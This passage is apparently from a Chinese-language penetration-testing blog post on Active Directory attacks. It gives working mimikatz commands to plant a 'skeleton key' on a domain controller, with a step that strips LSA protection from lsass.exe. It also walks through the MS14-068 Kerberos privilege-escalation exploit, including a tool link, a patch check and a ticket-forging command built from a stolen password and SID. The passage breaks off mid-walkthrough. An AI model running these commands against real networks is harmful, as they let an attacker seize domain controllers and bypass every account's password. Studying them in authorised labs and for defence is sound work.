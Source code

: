 
```
#在域控上安装 skeleton key
mimikatz.exe privilege::debug "misc::skeleton"

#在域内其他机器尝试使用 skeleton key 去访问域控，添加的密码是 mimikatz
net use \\WIN-9P499QKTLDO.adtest.com\c$ mimikatz /user:adtest\administrator
```
微软在 2014 年 3 月 12 日添加了 LSA 保护策略，用来防止对进程 lsass.exe 的代码注入。如果直接尝试添加 skelenton key 会失败。

```
#适用系统
windows 8.1
windows server 2012 及以上
```
当然 mimikatz 依旧可以绕过，该功能需要导入mimidrv.sys文件，导入命令如下:

```
privilege::debug
!+
!processprotect /process:lsass.exe /remove 
misc::skeleton
```
##  MS14-068
工具地址：

```
https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068
```

当我们拿到了一个普通域成员的账号后，想继续对该域进行渗透，拿到域控服务器权限。如果域控服务器存在 MS14_068 漏洞，并且未打补丁，那么我们就可以利用 MS14_068 快速获得域控服务器权限。

MS14-068编号 CVE-2014-6324，补丁为 3011780 ，如果自检可在域控制器上使用命令检测。

```
systeminfo |find "3011780"
#为空说明该服务器存在MS14-068漏洞
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/25.png)

查看是否是域管理员,bypass是域用户

```
net user bypass /domain
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/26.png)

使用`dir \\WIN-SERVER-DC.test.com\c$`
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/27.png)

域用户hack在域成员主机A上登录过，域成员主机A的管理员通过mimikatz得到了域用户hack的用户名，密码，SID等值，而且域控存在MS14-068漏洞，现在域成员主机A想通过MS14-068漏洞访问域控。

1. 以下命令将生成 bypass@test.com 票据:

```
#MS14-068.exe -u 域用户@test.com -p 域用户密码 -s 域用户SID只 -d 域控ip
MS14-068.exe -u hack@test.com -p abc123! -s S-1-5-21-2189311154-2766837956-1982445477-1110 -d 192.168.28.10   
```
(这里因为发现bypass用户不是管理员权限，所以提了下权)
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/28.png)
